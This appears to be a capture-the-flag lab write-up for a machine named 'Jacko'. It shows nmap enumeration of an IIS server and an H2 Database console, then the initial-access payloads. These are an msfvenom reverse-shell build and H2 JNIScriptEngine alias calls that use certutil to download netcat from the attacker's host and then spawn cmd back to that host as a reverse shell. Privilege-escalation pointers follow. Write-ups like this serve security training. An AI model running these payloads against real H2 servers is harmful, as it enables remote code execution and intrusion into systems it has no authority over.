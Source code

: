 # Jacko

### Enumeration

```
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
8082/tcp open  http          H2 database http console
|_http-favicon: Unknown favicon MD5: D2FBC2E4FB758DC8672CDEFB4D924540
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: H2 Console
```

http://192.168.65.66/html/main.html - H2 Database Engine

http://192.168.65.66:8082 - Connect - H2 Console - H2 1.4.199 (2019-03-13)

H2 Database 1.4.199 - JNI Code Execution

https://www.exploit-db.com/exploits/49384

[https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)

### Initial Access

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.65 LPORT=80 -f exe -o shell.exe
```

```
# Execute respectively

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil.exe -urlcache -split -f http://192.168.49.65/nc64.exe /Windows/Temp/nc.exe").getInputStream()).useDelimiter("\\Z").next()');

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("/Windows/Temp/nc.exe -e cmd 192.168.49.65 80").getInputStream()).useDelimiter("\\Z").next()');
```

### PrivEsc

SeImpersonateToken - Enabled

OR

PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation

https://www.exploit-db.com/exploits/49382
